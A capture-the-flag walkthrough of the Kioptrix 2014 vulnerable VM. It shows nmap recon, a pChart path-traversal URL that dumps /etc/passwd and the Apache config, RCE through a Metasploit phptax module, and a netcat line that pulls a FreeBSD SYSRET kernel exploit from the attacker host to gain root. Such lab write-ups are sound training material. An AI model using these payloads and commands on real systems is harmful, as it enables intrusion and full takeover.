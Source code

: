 # Kioptrix: 2014 (#5)

## Recon & Enummeration

Nmap shows us two interesting webservices
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 16:38 EST
Nmap scan report for 10.10.10.9
Host is up (0.00056s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: 403 Forbidden
```
### Port 80

gobuster:
```
$ gobuster dir -u 10.10.10.9 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 2 -x php

```

Gobuster didn't result in many results, as the query rate was rather low. Therefore I stopped it without yielding any results.

## Intitial Foothold


The index page of the port 80 webserver contains a link in the source code to pchart 2.1.3 which is known for an LFI at `/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`. Resulting in:

```
 # $FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin
ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin
```

Now we know we have both `root` and `toor` users, as common with BSD, without any noticible user account

We can display the server configuration file as follows:
`/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`


We can see we need the `Mozilla/4.0` user agent to access port 8080.
On this page we can see a folder "phptax" which gives us the phptax application. This application seems to be vulnerable to RCE.

We obtain RCE as uswer www by using metasploit exploit `multi/http/phptax_exec`. 

## Privilege Escalation

As user www we can see we're running FreeBSD 9.0, which is vulnerable to the Intel SYSRET kernel privesc. We grab the exploit on our host machine and pipe it to a netcat listener:
```
cat /usr/share/exploitdb/exploits/freebsd/local/28718.c | nc -lvp 1234
```

On our victim machine we do the opposite, compile and run:
```
nc 10.10.10.4 1234 > exploit.c
gcc -o exploit exploit.c
exploit.c:178:2: warning: no newline at end of file
./exploit
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
id
uid=0(root) gid=0(wheel) groups=0(wheel)
```


